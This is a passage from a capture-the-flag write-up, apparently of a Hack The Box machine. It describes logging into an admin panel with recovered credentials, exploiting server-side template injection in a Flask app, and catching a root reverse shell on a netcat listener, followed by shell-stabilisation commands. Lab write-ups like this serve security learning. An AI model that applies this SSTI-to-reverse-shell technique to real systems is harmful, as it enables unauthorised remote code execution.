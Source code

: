 We can login with the credentials we found earlier (admin:superadministrator) to get access to the admin panel.
![intro](https://an00brektn.github.io/img/uni-ctf/Pasted image 20211121142144.png)

This part of the typical HTB challenge is always difficult because a lot of the functions here are absolutely useless. However, if there's one thing I know about CTF creators and Flask, they love putting in some kind of SSTI.

Server-side Template Injection (SSTI for short), is when a user is able to modify some parameter that can control the template engine that is running on the server. This can allow for XSS to RCE. The most common examples I've seen are in Jinja2 from Python and Pugify in Nodejs. There's a nice table to test certain payloads to enumerate the engine, but since we know it's Flask, we can reasonably assume it's Jinja, and can work from there.

If we go to the "My Profile" section, and test the "Full Name" field for SSTI, we get success.
![intro](https://an00brektn.github.io/img/uni-ctf/Pasted image 20211121142528.png)

Normally, the process of exploiting SSTI to get code execution involves enumerating for a module that will give you that ability, and then inserting your payload. Luckily, the field we're exploiting allows us to input as much text as we want, so we can use the following payload that I picked up from 0xdf's blog a while ago.

![oof](https://an00brektn.github.io/img/uni-ctf/Pasted image 20211121151437.png)

<sub>The engine I use to render the markdown for the blog didn't like the syntax, but the payload is on 0xdf's Doctor writeup, and I think PayloadsAllTheThings as well</sub>

This will iterate over every possible module and check if we can get execution. If we can, we run the reverse shell payload. If we run this against the target, we get a shell back on our listener.

```bash
kali@transistor:~/ctf/htb_uni/GoodGames$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.43] from (UNKNOWN) [10.129.96.71] 41246
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# id; hostname
id; hostname
uid=0(root) gid=0(root) groups=0(root)
3a453ab39d3d
```

## Shell as augustus
### user.txt
I'll start by stabilizing my shell using the python trick.
```bash
root@3a453ab39d3d:/backend# which python3
which python3
/usr/local/bin/python3
root@3a453ab39d3d:/backend# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@3a453ab39d3d:/backend# export TERM=xterm
export TERM=xterm
root@3a453ab39d3d:/backend# ^Z
[1]+  Stopped                 nc -lvnp 443
kali@transistor:~/ctf/htb_uni/GoodGames$ stty raw -echo; fg
nc -lvnp 443

root@3a453ab39d3d:/backend# 
```

